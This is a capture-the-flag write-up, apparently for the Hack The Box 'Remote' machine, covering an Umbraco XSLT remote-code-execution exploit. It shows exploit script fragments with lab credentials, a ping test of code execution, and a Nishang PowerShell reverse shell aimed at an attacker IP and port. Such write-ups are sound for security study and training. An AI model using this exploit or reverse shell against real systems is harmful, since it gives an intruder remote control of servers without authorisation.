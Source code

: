 ```bash
data = {"__EVENTTARGET":"","__EVENTARGUMENT":"","__VIEWSTATE":VIEWSTATE,"__VIEWSTATEGENERATOR":VIEWSTATEGENERATOR,"ctl00$body$xsltSelection":payload,"ctl00$body$contentPicker$ContentIdValue":"","ctl00$body$visualizeDo":"Visualize+XSLT"};

# Step 4 - Launch the attack
r4 = s.post(url_xslt,data=data,headers=headers);

print("End");
```

First thing I noticed is where to change `login, password, and host`  the code should look as follows.  

```bash
login = "admin@htb.local";
password="baconandcheese";
host = "http://10.10.10.180";
```

Next I see the code is just poping calc. I changed this to `calc.exe` to `ping.exe` to test the execution of the script. I also added arguments for ping.exe where the script says `string cmd = ""`

![alt text](https://github.com/vipertooth/HTB-Remote/blob/master/resources/poc-ping.png)

Time to get a reverse shell!  Nishang as a few good powershell shells that come loaded into Kali. The one I use most is `/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1`.  I need to modify the file with my host and port.  This can be done by copying the example in the being and pasting it at the last line of the script. 

```bash
{
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.17.215 -Port 9003
```
